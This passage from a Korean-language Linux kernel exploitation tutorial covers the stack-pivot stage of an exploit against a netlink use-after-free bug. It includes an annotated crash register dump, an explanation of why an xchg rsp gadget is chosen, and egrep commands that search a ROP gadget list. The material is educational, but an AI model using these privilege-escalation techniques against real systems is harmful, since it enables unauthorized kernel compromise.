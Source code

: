 익스플로잇을 재실행해보자:

```plaintext
...
[+] g_uland_wq_elt addr = 0x602860
[+] g_uland_wq_elt.func = 0x4014c4
...
```

크래시가 일어날 때의 레지스터 상태는 다음과 같다:

```plaintext
[  453.993810] RIP: 0010:[<00000000004014c4>]  [<00000000004014c4>] 0x4014c4
                          ^ &payload()
[  453.993932] RSP: 0018:ffff88001b527e60  EFLAGS: 00010016
                         ^ kernel thread stack top
[  453.994003] RAX: 0000000000602860 RBX: 0000000000602878 RCX: 0000000000000000
                    ^ curr                ^ &task_list.next     ^ "key" arg
[  453.994086] RDX: 0000000000000000 RSI: 0000000000000001 RDI: 0000000000602860
                    ^ "wake_flags" arg    ^ "mode" arg          ^ curr
[  453.994199] RBP: ffff88001b527ea8 R08: 0000000000000000 R09: 00007fc0fa180700
                    ^ thread stack base   ^ "key" arg           ^ ???
[  453.994275] R10: 00007fffa3c8b860 R11: 0000000000000202 R12: 0000000000000001
                    ^ ???                 ^ ???                 ^ curr->flags
[  453.994356] R13: ffff88001bdde6b8 R14: 0000000000000000 R15: 0000000000000000
                    ^ nlk->wq [REALLOC]   ^ "key" arg           ^ "wake_flags" arg
```

오... 아주 운이 좋은 것 같다! **rax**, **rbx**, 그리고 **rdi**가 유저 영역 wait queue element를 가리키고 있다. 물론 이것은 우연이 아니다. 이게 처음에 이 arbitrary call primitive를 선택한 또 다른 이유이다.

### The Pivot

**스택은 *rsp*  레지스터에 의해서만 정의된다는 것**을 기억하자. 우리가 컨트롤할 수 있는 레지스터 중 하날 이용하여 rsp 레지스터를 덮어씌워보자. 이런 상황에 일반적으로 쓰이는 가젯은 이것이다:

```plaintext
xchg rsp, rXX ; ret
```

이는 *rsp*  값을 저장하며 컨트롤하는 레지스터의 값으로 바꿔준다. 따라서 나중에 스택 포인터를 복구하는 데 도움이 된다.

**노트**: 대신 *mov*  가젯을 사용할 수도 있지만 사용하게 되면 나중에 스택을 보수(repair)할 수 없기 때문에 현재의 스택 포인터 값을 잃게 된다. 완전히 맞는 말은 아니다. 스택 레이아웃이 알려져 있고 결정적이기(deterministic) 때문에 "고정된 오프셋"을 더할 수도 있고 RBP나 *kernel_stack*  변수를 이용하여 스택을 고칠(repair) 수도 있다. *xchg*  명령어를 사용하면 일이 더 간단해질 뿐이다.

```bash
$ egrep "xchg [^;]*, rsp|xchg rsp, " ranged_gadget.lst.sorted
0xffffffff8144ec62 : xchg rsi, rsp ; dec ecx ; cdqe ; ret
```

우리의 커널 이미지에선 해당 가젯이 하나밖에 없는 것 같다. 게다가 *rsi*  값이 0x0000000000000001이다(값을 바꿀 수 없다). 이는 **주소 0에 있는 페이지를 매핑하는 것**이 "NULL-deref" 버그 익스플로잇을 방지하기 위해 **더이상 가능하지 않다는 것**을 알려준다.

"esp" 레지스터를 추가해서 더 많은 결과를 찾아보자:

```bash
$ egrep "(: xchg [^;]*, esp|: xchg esp, ).*ret$" ranged_gadget.lst.sorted
...
0xffffffff8107b6b8 : xchg eax, esp ; ret
...
```
